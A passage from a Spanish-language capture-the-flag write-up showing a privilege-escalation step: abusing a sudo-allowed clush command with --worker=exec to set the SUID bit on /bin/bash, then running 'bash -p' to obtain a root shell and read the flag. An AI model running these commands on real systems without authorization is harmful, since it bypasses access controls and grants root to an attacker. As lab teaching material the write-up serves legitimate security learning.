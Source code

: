 ```bash
sudo /usr/bin/clush -h
```

Revisando las opciones, le tenemos que indicar el nodo donde se ejecutará el comando y el comando en sí. Esto lo hacemos de la siguiente forma. Le tenemos que indicar el nodo en el que se ejecutará el comando, esto lo hacemos con -w. Luego vamos a indicarle la opción --worker=exec, para decirle que ejecute el comando directamente en la máquina node1. Luego le tenemos que indicar el comando 

```bash
sudo /usr/bin/clush -w node1 --worker=exec '[Comando]'
```

En nuestro caso, vamos a probar a ejecutar un comando que otorgue el bit SUID a la Bash, de permiso de ejecución al grupo y de permisos de ejecución a otros usuarios. Esto podemos hacerlo de la siguiente forma 

```bash
sudo /usr/bin/clush -w node1 --worker=exec 'chmod u+s,g+x,o+x /bin/bash'
```

Si todo ha salido bien, si por ejemplo ahora listamos los permisos de /bin/bash, deberíamos ver que tiene activos los permisos indicados, así como el bit SUID 

```bash
ls -la /bin/bash
```

![Imagen024](24.jpeg)

Con esto hecho, ahora podemos llamar a una Bash con el parámetro -p para indicarle que nos la de con privilegios del propietario que es root en este caso.   
```bash
/bin/bash -p
```

![Imagen025](25.jpeg)

Como vemos somos root, ya podemos ir al directorio personal de root y hacerle un cat a la Flag. 
